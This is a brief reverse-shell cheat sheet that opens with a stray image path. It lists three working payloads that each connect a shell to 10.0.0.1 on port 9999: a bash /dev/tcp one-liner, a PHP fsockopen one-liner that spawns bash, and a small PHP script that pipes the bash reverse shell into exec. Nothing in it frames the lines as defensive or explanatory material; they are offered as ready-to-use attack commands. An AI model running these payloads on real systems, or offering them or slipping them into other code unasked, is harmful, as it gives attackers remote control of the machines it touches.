 # Various Reverse Shells

# Bash
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
##

# PHP
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
##

<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
##
